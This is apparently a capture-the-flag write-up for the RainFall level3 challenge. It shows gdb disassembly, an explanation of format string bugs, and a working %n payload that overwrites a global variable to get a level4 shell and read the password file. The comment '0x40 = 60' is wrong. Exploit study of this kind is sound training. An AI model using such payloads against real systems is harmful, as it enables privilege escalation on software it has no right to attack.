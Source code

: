 ```sh
level3@RainFall:~$ ls -la
total 17
dr-xr-x---+ 1 level3 level3   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level3 level3  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level3 level3 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level4 users  5366 Mar  6  2016 level3
-rw-r--r--+ 1 level3 level3   65 Sep 23  2015 .pass
-rw-r--r--  1 level3 level3  675 Apr  3  2012 .profile
level3@RainFall:~$ ./level3
42
42
level3@RainFall:~$ ./level3 42
42
42
level3@RainFall:~$
```
There is one excutable file **level3**, it works like cat, take standard input, print them and shutting down. \
\
Run the binary file with GDB.
```sh
(gdb) info function
...
0x080484a4  v
0x0804851a  main
...
(gdb) disas v
...
   0x080484ad <+9>:     mov    0x8049860,%eax # stdin
   0x080484b2 <+14>:    mov    %eax,0x8(%esp)
   0x080484b6 <+18>:    movl   $0x200,0x4(%esp) # 512
   0x080484be <+26>:    lea    -0x208(%ebp),%eax # some variable[512]
   0x080484c4 <+32>:    mov    %eax,(%esp)
   0x080484c7 <+35>:    call   0x80483a0 <fgets@plt> # fgets(buffer, 512, stdin);
   0x080484cc <+40>:    lea    -0x208(%ebp),%eax
   0x080484d2 <+46>:    mov    %eax,(%esp)
   0x080484d5 <+49>:    call   0x8048390 <printf@plt> # printf(buffer);
   0x080484da <+54>:    mov    0x804988c,%eax # global variable m
   0x080484df <+59>:    cmp    $0x40,%eax # 0x40 = 60
   0x080484e2 <+62>:    jne    0x8048518 <v+116>
...
```
We can find ```v()``` function which have ```fgets()``` and ```printf()```. \
and also cmp with 0x804998c and 0x40. this mean
```sh
(gdb) x/s 0x804988c
0x804988c <m>:   ""
```
```c
int	m;
if (64 == m)
{
	...
	system("/bin/sh");
}
```
So for enter in the if condition, we have to change m value with **printf vulnerability** (a.k.a format string vulnerability) [Ref](https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/). \
Format string vulnerability is simply, if printf used without formatter, we can manipulate stack.
```c
char *str;
gets(str);
printf("%s", str); // good code
printf(str); // bad code
```
If we put the argument like ```"%x %x"```, printf will be pop the stack and show us.
```sh
level3@RainFall:~$ python -c 'print "BBBB %x %x %x %x %x %x %x"' > /tmp/exploit3
level3@RainFall:~$ cat /tmp/exploit3 | ./level3
BBBB 200 b7fd1ac0 b7ff37d0 42424242 20782520 25207825 78252078
```
So we can guess our standard input is saved in 4th position of stack. \
We will replace BBBB by the address of the variable ```m```. \
Formatter ```%n``` is write number of bytes printed by ```printf```. \
Example:
```c
printf("buffer %s: %n%s", "hello", &offset, "world");
printf("%*s", offset, "bye");
```
```sh
buffer hello: world
              bye
<------------>
<align by offset>
```
So we can put specific number in the address with ```%n```, 4$ mean 4th stack address. \
First, put variable ```m``` address, so it will be seated in 4th stack and add 60 bytes of "some value" (a * 60), and write the number of bytes printed by printf (%n) which is ```address(4 bytes) + some value(60 bytes) = 64``` in the 4th (4$) address of stack, where variable ```m``` is located.
```sh
level3@RainFall:~$ python -c 'print "\x8c\x98\x04\x08" + "a" * 60 + "%4$n"' > /tmp/exploit3
level3@RainFall:~$ cat /tmp/exploit3 - | ./level3
�aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Wait what?!
whoami
level4
cat /home/user/level4/.pass
(hidden)
```
level3 passed !
